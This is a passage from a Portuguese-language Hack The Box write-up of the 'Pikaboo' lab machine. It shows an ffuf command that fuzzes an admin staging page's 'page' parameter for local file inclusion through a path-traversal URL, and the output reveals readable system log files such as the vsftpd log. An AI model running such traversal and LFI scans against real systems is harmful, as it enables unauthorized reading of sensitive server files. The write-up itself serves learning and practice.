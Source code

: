 Caímos em um dashboard com algumas informações sobre o desempenho da página.

Eu enumerar a página, descobrimos que ao clicar em qualquer link, vemos um parâmetro `GET` na url.

<img src="/htb/htb-pikaboo-9.png">

Isso nos dá uma dica de que podemos tentar `LFI` através do parâmetro, vamos tentar.

```
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ffuf -u http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -t 200 -c -fs 15349 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 15349
________________________________________________

/var/log/lastlog        [Status: 200, Size: 307641, Words: 3272, Lines: 368]
/var/log/vsftpd.log     [Status: 200, Size: 19803, Words: 3893, Lines: 414]
/var/log/wtmp           [Status: 200, Size: 169717, Words: 3286, Lines: 558]
:: Progress: [914/914] :: Job [1/1] :: 1079 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
A busca nos trouxe `/var/log/vsftpd.log` que é o log do `VSFTPd`, vamos acessá-lo.

<img src="/htb/htb-pikaboo-10.png">

